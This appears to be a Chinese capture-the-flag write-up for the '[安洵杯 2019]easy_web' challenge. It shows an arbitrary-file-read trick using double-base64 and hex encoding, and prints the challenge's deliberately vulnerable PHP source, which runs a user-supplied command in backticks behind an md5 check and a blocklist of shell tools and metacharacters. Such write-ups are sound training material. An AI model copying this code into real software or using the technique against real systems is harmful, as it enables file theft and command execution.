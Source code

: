 ### [安洵杯 2019]easy_web

进入页面，悲伤气息扑面而来。

#### 知识点：

+ md5 强类型绕过。
+ 任意文件读取。
+ Linux命令执行绕过。



在 URL 处，发现：

```
http://54fae4b4-a5d2-4e35-a60d-1b772ad8b996.node3.buuoj.cn/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

``img=TXpVek5UTTFNbVUzTURabE5qYz0`` ，这个是 base64 加密，进行解码，解码两次后得到：``3535352e706e67``。然后这个又像是 16进制加密的，解密一下：``555.png``，一个图片的名字。

然后用上面的解密反推 index.php ：转换后得到：

```
TmprMlpUWTBOalUzT0RKbE56QTJPRGN3
```

访问，得到 base64 编码的字符串，解码：

[![2Ubg3D.png](https://z3.ax1x.com/2021/06/06/2Ubg3D.png)](https://imgtu.com/i/2Ubg3D)

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
```

